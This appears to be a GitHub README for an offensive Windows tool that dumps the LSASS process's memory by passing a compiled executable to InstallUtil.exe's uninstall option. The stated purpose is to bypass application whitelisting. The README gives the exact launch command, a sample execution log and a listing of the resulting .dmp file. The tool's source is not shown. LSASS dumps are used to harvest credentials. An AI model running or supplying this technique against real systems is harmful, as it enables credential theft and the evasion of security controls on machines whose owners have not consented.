 # UninstallMinidumpLsass
Performs a Minidump of the LSASS process when uninstalled using Windows InstallUtil.exe

# Purpose
Bypasses application whitelisting of non trusted binaries to perform a Minidump of the LSASS process. 
This is accomplished by passing the compiled UninstallMinidumpLsass executable into the uninstall parameter of the InstallUtil.exe Windows tool.
```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /U UninstallMinidumpLsass.exe
```

# Execution
```
c:\Users\Caleb\>C:\windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /U UninstallMinidumpLsass.exe
Microsoft (R) .NET Framework Installation utility Version 4.8.4084.0
Copyright (C) Microsoft Corporation.  All rights reserved.

The uninstall is beginning.
See the contents of the log file for the c:\Users\Caleb\UninstallMinidumpLsass.exe assembly's progress.
The file is located at c:\Users\Caleb\UninstallMinidumpLsass.InstallLog.
Uninstalling assembly 'c:\Users\Caleb\UninstallMinidumpLsass.exe'.
Affected parameters are:
   logtoconsole =
   assemblypath = c:\Users\Caleb\UninstallMinidumpLsass.exe
   logfile = c:\Users\Caleb\Release\UninstallMinidumpLsass.InstallLog

The uninstall has completed.
```
If successful, a file will be created in the current working directory formatted as PID.dmp
```
dc:\Users\Caleb\dir

10/05/2020  10:07 PM             6,144 UninstallMinidumpLsass.exe
10/05/2020  10:07 PM        61,420,010 966.dmp
```
